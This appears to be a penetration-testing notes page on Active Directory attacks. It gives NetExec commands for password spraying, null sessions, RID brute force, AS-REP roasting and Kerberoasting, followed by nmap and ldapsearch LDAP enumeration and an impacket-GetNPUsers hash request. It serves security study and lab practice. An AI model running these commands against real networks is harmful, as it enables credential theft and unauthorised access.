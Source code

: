 This project was initially created in 2015 by @byt3bl33d3r, known as CrackMapExec. In 2019 @mpgn_x64 started maintaining the project for the next 4 years, adding a lot of great tools and features.

> [!NOTE]
> If Netexec shows 'STATUS_ACCOUNT_LOCKED_OUT' we probably had locked out the account, but the credentials are valid.
> 

```bash
# Enumeration
nxc smb 10.10.10.1 -u users.txt -p password123 --continue-on-success

# Null session
nxc smb 10.10.10.1 -u '' -p ''

# Kerberute
nxc smb 10.10.10.1 -u 'guest' -p '' --rid-brute

# AS-REP Roasting
nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt

# Kerberosting
nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```

and much more...

## LDAP

First we run nmap against ldap server

```shell
nmap --script "ldap* and not brute" $ip -p 389 -v -Pn -sT <IP>
```

Then using ldapsearch we can extract credentials. The -b parameter in the ldapsearch command specifies the base DN (Distinguished Name) for the search. The DN is essentially the starting point in the LDAP directory tree from which the search will begin. Think of it as the root of your search within the  LDAP stucture. Example taken from [here](https://medium.com/@0xrave/kyoto-proving-grounds-practice-walkthrough-active-directory-820dfcff5ddd).

```shell
ldapsearch -x -h <IP> -b "dc=X,dc=Y"
```

# AS-REP Roasting

If the AD authentication is configured without the Kerberos Preauthentiction enabled, any user can request a TGT. We can use the `impacket-GetNPUsers` util on Kali. A good explaination of this attack can be found [here](https://en.hackndo.com/kerberos-asrep-roasting/).

```shell
impacket-GetNPUsers -dc-ip <IP-DC>  -request -outputfile hashes.asreproast corp.com/<USER>
```
